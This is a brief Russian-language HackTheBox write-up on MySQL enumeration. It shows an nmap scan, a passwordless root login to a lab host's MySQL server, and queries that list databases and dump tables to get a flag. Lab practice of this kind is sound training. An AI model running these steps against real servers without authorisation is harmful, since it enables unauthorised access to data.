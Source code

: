 HTB MySQL Enumeration & Exploitation

Сканирование целевой машины:

nmap -sV -sC 10.10.10.10 

Подключение к MySQL:

mysql -h 10.10.10.10 -P 3306 -u root

Исследование базы данных:

SHOW DATABASES;
USE имя_базы;
SHOW TABLES;
DESCRIBE имя_таблицы; -- или SHOW COLUMNS FROM имя_таблицы;
SELECT * FROM имя_таблицы;

Флаг получен из базы данных.

